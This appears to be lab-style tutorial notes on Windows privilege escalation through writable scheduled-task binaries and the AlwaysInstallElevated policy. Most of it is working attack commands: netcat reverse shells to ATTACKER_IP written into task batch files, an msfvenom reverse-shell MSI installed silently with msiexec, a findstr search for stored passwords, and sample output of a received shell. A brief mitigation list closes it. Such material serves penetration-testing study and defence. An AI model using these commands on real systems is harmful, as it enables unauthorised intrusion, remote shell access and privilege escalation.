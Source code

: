 # Windows Scheduled Tasks Exploitation

Scheduled tasks in Windows can create privilege escalation opportunities when misconfigured. This document covers methods to identify and exploit vulnerable scheduled tasks.

## Identifying Scheduled Tasks

List all scheduled tasks with various commands:

```cmd
# Basic listing of all scheduled tasks
schtasks

# List tasks with more details in a readable format
schtasks /query /fo LIST

# Query a specific task with verbose output
schtasks /query /tn <TASKNAME> /fo list /v

# Using PowerShell to get all scheduled tasks
Get-ScheduledTask | Where-Object {$_.State -ne "Disabled"} | Format-Table TaskName,TaskPath,State
```

## Exploitable Conditions

Look for these vulnerabilities in scheduled tasks:

1. **Writable Target Binary** - If the task runs a binary that your user can modify
2. **Missing Binary** - If the task attempts to run a non-existent binary in a location you can write to
3. **Weak Permissions on Task Definition** - If you can modify the task itself

## Checking File Permissions

When you identify a potential target task, check file permissions on the binary it runs:

```cmd
# Check permissions on the executable used by a scheduled task
icacls "C:\path\to\executable.exe"

# Look for (F) Full control or (M) Modify permissions for your user or groups you belong to
# Pay attention to these common groups: BUILTIN\Users, Everyone, Authenticated Users
```

Permissions flags to look for:

- `(F)` - Full control
- `(M)` - Modify
- `(W)` - Write
- `(I)` - Permission inherited from parent container

## Exploiting Writable Target Binaries

If you find a scheduled task runs a binary that you can modify:

```cmd
# For a .exe file, you'll need to replace it with your own malicious executable
# For a .bat or .ps1 file, you can simply modify the contents

# Example: Replacing a vulnerable BAT file with a reverse shell
echo C:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\vulnerable\path\task.bat

# Example: Adding commands to an existing script
echo C:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 >> C:\vulnerable\path\task.ps1
```

## Practical Example

This example shows how to exploit a vulnerable scheduled task:

1. **Identify the vulnerable task**:

```cmd
C:\> schtasks /query /tn vulntask /fo list /v
Folder: \
HostName:                             THM-PC1
TaskName:                             \vulntask
Task To Run:                          C:\tasks\schtask.bat
Run As User:                          taskusr1
```

2. **Check the file permissions**:

```cmd
C:\> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
```

3. **Replace the file with our payload**:

```cmd
C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

4. **Set up a listener on the attacker machine**:

```bash
nc -lvp 4444
```

5. **Wait for the task to run or trigger it manually if you have permissions**:

```cmd
C:\> schtasks /run /tn vulntask
```

6. **Receive the reverse shell with taskusr1 privileges**:

```bash
user@attackerpc$ nc -lvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.175.90 50649
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\taskusr1
```

## AlwaysInstallElevated Privilege Escalation

The Windows Installer service can be configured to run with elevated privileges for all users. This can be exploited to install a malicious MSI package with SYSTEM privileges.

### Checking Registry Settings

Both registry keys need to be set to 1 for this attack to work:

```cmd
# Check HKEY_CURRENT_USER
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# Check HKEY_LOCAL_MACHINE
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

### Creating Malicious MSI

If both keys are set to 1, create a malicious MSI package on your attack machine:

```bash
# Generate malicious MSI with msfvenom
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```

### Exploiting

Transfer the MSI to the target and execute it:

```cmd
# Execute the MSI silently
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

## Finding Files in Windows

To find files in Windows when searching for potential privilege escalation vectors:

```cmd
# Using dir command to search for files recursively
dir /s /b C:\filename.txt

# Search for files with specific extension
dir /s /b C:\*.bat

# Search in specific directory
dir /s /b C:\Windows\Tasks\*.bat

# Using PowerShell for more advanced searches
Get-ChildItem -Path C:\ -Include *.bat -File -Recurse -ErrorAction SilentlyContinue

# Find files containing specific text (like password)
findstr /si password *.txt *.ini *.config

# Find all dll files in the current directory and subdirectories
dir /s /b *.dll

# Find files modified in last 7 days
forfiles /P C:\ /S /M *.exe /D +7 /C "cmd /c echo @path"

# PowerShell search for recent files
Get-ChildItem -Path C:\ -Recurse -File | Where-Object {$_.LastWriteTime -gt (Get-Date).AddDays(-7)} 
```

## Protection and Mitigation

To protect systems from scheduled task vulnerabilities:

1. Ensure task binaries have appropriate permissions (limit to SYSTEM and Administrators)
2. Use absolute paths with quotes for task commands
3. Store task binaries in protected directories
4. Regularly audit scheduled tasks
5. Disable the AlwaysInstallElevated policy
6. Monitor for unexpected modifications to scheduled tasks

## Other Scheduled Task Exploitation Techniques

- Check for credentials in task arguments/parameters
- Look for scripts that access other writable files
- Inspect task actions for potential DLL hijacking
- Monitor file modifications to detect privilege escalation attempts 